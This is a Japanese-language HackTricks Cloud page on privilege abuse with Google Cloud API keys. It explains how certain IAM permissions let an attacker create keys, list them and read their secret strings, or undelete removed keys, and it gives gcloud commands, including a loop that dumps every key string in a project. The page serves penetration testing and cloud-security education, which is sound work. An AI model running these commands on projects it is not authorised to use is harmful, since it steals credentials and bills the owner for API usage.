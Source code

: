 # GCP - Apikeys Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## Apikeys

以下の権限はAPIキーを作成し、盗むのに役立ちます。ドキュメントからこの点に注意してください：_APIキーは、**任意のプリンシパルなしにアプリケーションを識別する**単純な暗号化された文字列です。**公開データに匿名でアクセスする**ために役立ち、APIリクエストをクォータと**請求**のためにプロジェクトに**関連付ける**ために使用されます。_

したがって、APIキーを使用すると、APIの使用料金をその会社に支払わせることができますが、権限を昇格させることはできません。

APIキーに関する詳細情報はこちらをチェックしてください：

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

### APIキーのアクセスをブルートフォースする <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

プロジェクトで有効になっているAPIや見つけたAPIキーに適用されている制限がわからない場合は、[**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner)というツールを実行し、APIキーで**何にアクセスできるか**を確認すると良いでしょう。

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

この権限は**APIキーを作成する**ことを可能にします：
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
以下は、自動化スクリプトに関する内容です。[**脆弱な環境の作成、悪用、およびクリーニングを自動化するスクリプトはこちら**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/b-apikeys.keys.create.sh)で見つけることができます。

{% hint style="danger" %}
デフォルトでは、ユーザーには新しいプロジェクトを作成する権限があり、新しいプロジェクトに対してOwnerロールが付与されます。したがって、ユーザーは**プロジェクトを作成し、そのプロジェクト内にAPIキーを作成する**ことができます。
{% endhint %}

### `apikeys.keys.getKeyString` , `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

これらの権限により、**すべてのapiKeysをリスト表示し、Keyを取得する**ことができます：
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
以下は、[**脆弱な環境の作成、悪用、およびクリーニングを自動化するスクリプト**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh)を見つけることができます。

### `apikeys.keys.undelete`, `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

これらの権限により、**削除されたAPIキーをリストアップし、再生成することができます**。**APIキーは、undelete** 完了後に**出力で与えられます**：
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
